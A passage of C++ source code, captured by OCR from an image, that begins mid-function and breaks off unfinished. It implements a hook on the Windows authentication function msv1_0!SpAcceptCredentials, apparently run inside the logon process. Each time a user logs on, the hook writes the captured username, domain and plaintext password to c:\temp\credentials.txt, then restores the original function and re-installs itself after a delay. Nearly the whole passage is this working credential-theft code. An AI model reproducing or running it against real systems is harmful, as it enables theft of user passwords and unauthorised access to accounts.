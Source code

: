 ```cpp
                    break;
                }

                if (i == patternSize - 1)
                {
                    patternAddress = (LPVOID)(&startAddress[index]);
                    return patternAddress;
                }
            }
        }
        ++index;
    } while (index < searchBytes);

    return (PVOID)NULL;
}

NTSTATUS NTAPI hookedSpAccecptedCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
    DWORD bytesWritten = 0;
    HANDLE file = CreateFileW(L"c:\\temp\\credentials.txt", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, NULL, NULL);
    _SpAcceptCredentials originalSpAcceptCredentials = (_SpAcceptCredentials)addressOfSpAcceptCredentials;

    // intercept credentials and write them to disk
    WriteFile(file, PrimaryCredentials->DownlevelName.Buffer, PrimaryCredentials->DownlevelName.Length, &bytesWritten, NULL);
    WriteFile(file, "@", 2, &bytesWritten, NULL);
    WriteFile(file, PrimaryCredentials->DomainName.Buffer, PrimaryCredentials->DomainName.Length, &bytesWritten, NULL);
    WriteFile(file, ":", 2, &bytesWritten, NULL);
    WriteFile(file, PrimaryCredentials->Password.Buffer, PrimaryCredentials->Password.Length, &bytesWritten, NULL);
    CloseHandle(file);

    // unhook msv1_0!SpAcceptCredentials
    WriteProcessMemory(GetCurrentProcess(), addressOfSpAcceptCredentials, bytesToRestoreSpAccecptedCredentials, sizeof(bytesToRestoreSpAccecptedCredentials), NULL);

    // hook msv1_0!SpAcceptCredentials again with a delay so that originalSpAcceptCredentials() can execute
    CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)installSpAccecptedCredentialsHook, NULL, NULL, NULL);

    // call original msv1_0!SpAcceptCredentials
    return originalSpAcceptCredentials(LogonType, AccountName, PrimaryCredentials, SupplementalCredentials);
}

void installSpAccecptedCredentialsHook()
{
    Sleep(1000 * 5);
    HMODULE targetModule = LoadLibraryA("msv1_0.dll");
    DWORD bytesWritten = 0;

    PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)targetModule;
    PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)targetModule + dosHeader->e_lfanew);
    SIZE_T sizeOfImage = ntHeader->OptionalHeader.SizeOfImage;

    // find address of msv1_0!SpAcceptCredentials
```